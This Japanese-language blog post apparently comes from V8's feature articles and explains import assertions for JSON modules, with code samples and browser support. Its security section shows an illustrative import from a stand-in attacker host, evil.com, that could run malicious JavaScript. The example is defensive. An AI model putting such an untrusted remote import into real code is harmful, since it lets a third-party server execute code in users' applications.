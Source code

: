```yaml
---
title: "インポートアサーション"
author: "Dan Clark ([@dandclark1](https://twitter.com/dandclark1)), インポートアサーションの主張者"
avatars: 
  - "dan-clark"
date: 2021-06-15
tags: 
  - ECMAScript
description: "インポートアサーションにより、モジュール指定子とともに追加の情報をインポート文に含めることができます"
tweet: ""
---
```


新しい[インポートアサーション](https://github.com/tc39/proposal-import-assertions)機能により、モジュール指定子とともに追加の情報をインポート文に含めることができます。この機能の初期の用途として、JSON文書を[JSONモジュール](https://github.com/tc39/proposal-json-modules)としてインポート可能にすることがあります:

<!--truncate-->
```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
import json from './foo.json' assert { type: 'json' };
console.log(json.answer); // 42
```

## 背景: JSONモジュールとMIMEタイプ

自然に浮かぶ疑問は、JSONモジュールを次のように単純にインポートできない理由です:

```javascript
import json from './foo.json';
```

WebプラットフォームはモジュールリソースのMIMEタイプを実行前に有効性を確認し、このMIMEタイプを使ってリソースをJSONとして扱うかJavaScriptモジュールとして扱うかを判断することも理論的には可能です。

しかし、MIMEタイプだけに依存することには[セキュリティ問題](https://github.com/w3c/webcomponents/issues/839)があります。

モジュールはクロスオリジンでインポート可能で、開発者は第三者ソースからJSONモジュールをインポートすることがあるかもしれません。適切にサニタイズされている限り、JSONをインポートすることでスクリプトが実行されることはないため、基本的に安全だと考えるかもしれません。

しかし、この場合でも第三者のスクリプトが実際に実行される可能性があります。予期せずJavaScript MIMEタイプと悪意のあるJavaScriptペイロードを返すサーバが輸入者のドメインでコードを実行することができるためです。

```javascript
// JavaScript MIMEタイプ (例: `text/javascript`) を
// evil.comが返答した場合、JSを実行します!
import data from 'https://evil.com/data.json';
```

ファイル拡張子を使用してモジュールタイプを判別することはできません。なぜなら、[ウェブ上ではコンテンツタイプの信頼できる指標ではない](https://github.com/tc39/proposal-import-assertions/blob/master/content-type-vs-file-extension.md)からです。そのため、インポートアサーションを用いて期待されるモジュールタイプを示し、この権限昇格の落とし穴を防ぎます。

開発者がJSONモジュールをインポートしたい場合は、それがJSONであることを指定するインポートアサーションを使用する必要があります。ネットワークから受け取ったMIMEタイプが期待されるタイプと一致しない場合、インポートは失敗します:

```javascript
// evil.comが非JSON MIMEタイプで返答した場合は失敗します。
import data from 'https://evil.com/data.json' assert { type: 'json' };
```

## 動的`import()`

インポートアサーションは、[動的`import()`](https://v8.dev/features/dynamic-import#dynamic)に新しい2番目のパラメータとしても渡すことができます:

```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
const jsonModule = await import('./foo.json', {
  assert: { type: 'json' }
});
console.log(jsonModule.default.answer); // 42
```

JSONコンテンツはモジュールのデフォルトエクスポートであるため、`import()`から返されるオブジェクトの`default`プロパティを通じて参照されます。

## 結論

現在、インポートアサーションの唯一の指定された用途はモジュールタイプの指定です。しかし、機能は任意のキー／値アサーションペアを許容するように設計されているため、将来、モジュールインポートを別の方法で制限することが有用になる場合に追加の用途が追加される可能性があります。

一方、新しいインポートアサーション構文を使用したJSONモジュールはChromium 91でデフォルトで利用可能です。[CSSモジュールスクリプト](https://chromestatus.com/feature/5948572598009856)もすぐに登場する予定で、同じモジュールタイプアサーション構文を使用します。

## インポートアサーションのサポート

<feature-support chrome="91 https://chromestatus.com/feature/5765269513306112"
                 firefox="no"
                 safari="no"
                 nodejs="no"
                 babel="yes https://github.com/babel/babel/pull/12139"></feature-support>

